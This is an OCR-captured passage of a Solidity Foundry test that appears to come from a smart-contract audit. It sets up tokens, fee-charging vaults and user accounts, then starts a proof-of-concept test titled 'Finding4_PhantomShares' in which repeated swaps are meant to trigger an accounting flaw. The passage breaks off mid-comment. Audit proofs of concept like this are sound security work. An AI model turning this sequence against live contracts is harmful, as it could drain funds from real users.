 ```solidity
    TokenandVaultDeployer.TokenVaults[MAX_TOKENS] vaultAddresses;

    address charlie = makeAddr("charlie");
    address dave = makeAddr("dave");
    address eve = makeAddr("eve");

    address[] public actors = [owner, alice, bob, charlie, dave, eve];

    function setUp() public virtual{
        vm.startPrank(owner);
        _newDiamond();

        tokenandVaultDeployer = new TokenandVaultDeployer();
        // deploy token 0 - regular token
        tokensAddresses[0] = tokenandVaultDeployer.createToken("TOKEN0", "TKN0", 18);
        // deploy fee charging vault for token 0 :: 2% fee
        vaultAddresses[0] = tokenandVaultDeployer.createActiveandBackupFeeChargingVaultPairOneToken(tokensAddresses[0], 200);

        // deploy token 1 - regular token
        tokensAddresses[1] = tokenandVaultDeployer.createToken("TOKEN1", "TKN1", 18);
        // deploy regular vault 
        vaultAddresses[1] = tokenandVaultDeployer.createActiveandBackupVaultPairOneToken(tokensAddresses[1]);

        // Mint users tokens
        mintTokensMultipleUsers(actors, tokensAddresses[0], MINT_AMOUNT);
        mintTokensMultipleUsers(actors, tokensAddresses[1], MINT_AMOUNT);
        require(tokensAddresses.length == MAX_TOKENS);
        require(vaultAddresses.length == MAX_TOKENS);

        // Deploy custom facet
        _customFacet();
        customFacet = CustomFacet(diamond);

        vm.stopPrank();
    }

    /*//////////////////////////////////////////////////////////////
                            PROOF OF CONCEPT
    //////////////////////////////////////////////////////////////*/
    function test_Finding4_PhantomShares() public {
        // Add vertices
        addVertexWithBothVaults(0);
        addVertexWithBothVaults(1);

        // Create closure with base fee of 1% and protocol takes 10%
        address[] memory vertices = new address[](2);
        vertices[0] = tokensAddresses[0];
        vertices[1] = tokensAddresses[1];
        createClosure(vertices, uint128(LP_AMOUNT), 3402823669209384634633746074317682115, 34028236692093846346337460743176821146);
        printDivider("Closure Created");

        // Alice adds 500 value to each token, therefore pool is 1000 tokens for each token
        userAddsValueAndPrintEarnings(alice, "alice", tokensAddresses[0], 3);
        userAddsValueAndPrintEarnings(alice, "alice", tokensAddresses[1], 3);

        // Dave swaps from token 0 to token 1 and then back i times
        uint256 i= 0;
        /**
         * @dev tipping point is 876
         * 875 = PASS : 876 = FAIL
```